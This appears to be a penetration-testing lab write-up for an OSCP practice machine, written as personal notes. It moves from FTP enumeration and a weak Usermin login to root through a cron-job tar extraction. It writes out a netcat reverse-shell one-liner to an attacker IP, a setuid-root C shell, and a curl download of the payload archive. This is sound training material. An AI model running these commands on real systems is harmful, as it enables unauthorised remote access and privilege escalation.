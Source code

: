  ## Takeaway
## Metadata
- Port `21` FTP allows anonymous login
	- After retrieving 5 `.pdf` file, one can use `exiftool` to discover potentially 3 users: `cassie`, `makr`, `robert`.![[Pasted image 20240313142936.png]]![[Pasted image 20240313143033.png]]
- Port `20000` redirects to `https://oscp:20000` which is a login page for `Usermin`instance.
	- Adding `192.168.242.157 oscp` to `/etc/hosts`
	- Credential `cassie:cassie` can be used to login as a valid user.
- `linpeas` will identify a `cron job` is ran as `root` every 2 minutes. 
	- The exact command ran is `cd /opt/admin && tar -zxf /tmp/backup.tar.gz *`.![[Pasted image 20240313162715.png]]
	- We have `write` permission on `/opt/admin` since we own the directory.
# Exploitation
## Shell as cassie
- Login as `cassie`, navigate to `https://oscp:20000/shell/?xnavigation=1` and run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.242 443 >/tmp/f` to receive a reverse shell as `cassie`.![[Pasted image 20240313144137.png]]
- ![[Pasted image 20240313164354.png]]
# PrivEsc
- Create a file called `shell.c` containing following code:
```c
#include <unistd.h>
int main(void){
  setresuid(0, 0, 0);
  system("/bin/bash -p");
}
```
- On attaker machine generate payload with `sudo gcc shell.c -o shell -static;sudo chmod u+s shell;tar -zcf backup.tar.gz shell`.
- Set up python webserver and, on target, run `cd /tmp;curl -O http://192.168.45.242:1234/backup.tar.gz` to retrieve the payload onto `/tmp` directory.
	- Since the `cron job` run `tar -zxf /tmp/backup.tar.gz *`, we need to run `touch /opt/admin/shell` to ensure the archive extracts properly.
- Wait for the `cron job` and run `cd /opt/admin;./shell` to obtain a root shell.
- ![[Pasted image 20240313162641.png]]